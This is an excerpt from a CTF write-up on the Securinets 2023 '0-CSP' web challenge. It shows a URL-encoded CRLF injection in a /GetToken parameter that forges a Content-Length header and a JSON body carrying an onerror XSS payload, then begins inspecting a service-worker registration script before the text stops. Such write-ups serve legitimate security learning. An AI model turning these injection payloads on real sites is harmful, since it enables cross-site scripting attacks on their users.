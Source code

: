 However, it still contains the real user token JSON data...

**To solve this, we can overwrite the `Content-Length` response header!**

**Get the XSS payload's length:**
```shell
┌[siunam♥Mercury]-(~/ctf/Securinets-CTF-Quals-2023/Web-Exploitation/0-CSP)-[2023.08.07|12:23:23(HKT)]
└> python3
[...]
>>> xssPayload = '''{"token", "<img src=errorpls onerror=alert(document.domain)"}'''
>>> len(xssPayload)
61
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807124033.png)

> ***Update: Umm... Actually you don't need to inject the `Content-Length` response header, this is my mistake, see [## Update](#update).***

**Nice! We can intercept the `/GetToken` route's request and modify the `userid` GET parameter's value to the XSS payload in `/helloworld` route in host `escape.nzeros.me`:**
```
/GetToken?userid=overwriteUserid%3a%20foobar%0d%0aContent-Length%3a%2061%0d%0a%0d%0a%7b%22token%22%3a%22%3cimg%20src%3derrorpls%20onerror%3dalert(document.domain)%3e%22%7d
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807124150.png)

Then I waited for a few minutes:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807123632.png)

What?? The `Content-Length` response header should do the job right?

**Eventually, I retried a bunch of times, and the XSS payload did worked:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807130432.png)

However, we got a big problem: How can we deliver this XSS payload to the bot on host `escape.nzeros.me`? If we can't, it's just a **self-XSS**...

Then, I wonder what's that **`sw.js` JavaScript file** doing in `/helloworld` and `/securinets` route...

**In the home page (`/`), we can view the source page:**
```html
[...]
  <script>

    const ServiceWorkerReg = async () => {
      console.log("[ServiceWorkerReg] enter")
      if ('serviceWorker' in navigator) {
        console.log("[ServiceWorkerReg] serviceworker in navigator")
        try {
          const params = new URLSearchParams(window.location.search);
          console.log("[ServiceWorkerReg] registering")

          const reg = await navigator.serviceWorker.register(
            `sw.js?user=${params.get("user") ?? 'stranger'}`,
            {
              scope: './',
            }
          );
          loaded = true;
          console.log("[ServiceWorkerReg] registered")
          console.log(reg)
          if (reg.installing) {
```